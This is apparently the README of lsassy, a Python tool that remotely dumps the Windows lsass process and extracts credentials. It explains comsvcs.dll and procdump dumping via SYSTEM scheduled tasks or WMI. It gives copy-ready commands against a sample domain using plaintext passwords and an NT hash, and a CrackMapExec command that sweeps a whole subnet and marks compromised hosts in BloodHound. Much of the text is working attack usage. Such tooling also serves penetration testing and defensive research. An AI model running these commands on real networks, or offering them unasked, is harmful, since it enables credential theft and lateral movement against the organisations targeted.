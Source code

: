 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=0.3.0&x2=0)](https://pypi.org/project/lsassy/)

![CME Module example](/assets/cme_lsassy.gif)

Python library to remotely parse lsass dump and extract credentials.
This library uses [impacket](https://github.com/SecureAuthCorp/impacket) projects to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced-usage)            | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples)                        | Command line examples for standalone and CME module     |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

This tool can dump lsass in different ways.

### comsvcs.dll method (Default)

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump**
function from **comsvcs.dll** to dump **lsass** process. As this can only be done as **SYSTEM**, it creates a remote
task as **SYSTEM**, runs it and then deletes it.

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

```
lsassy [--hashes [LM:]NT] -p /path/to/procdump.exe [<domain>/]<user>[:<password>]@<target>
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](/cme/)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound```
```

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
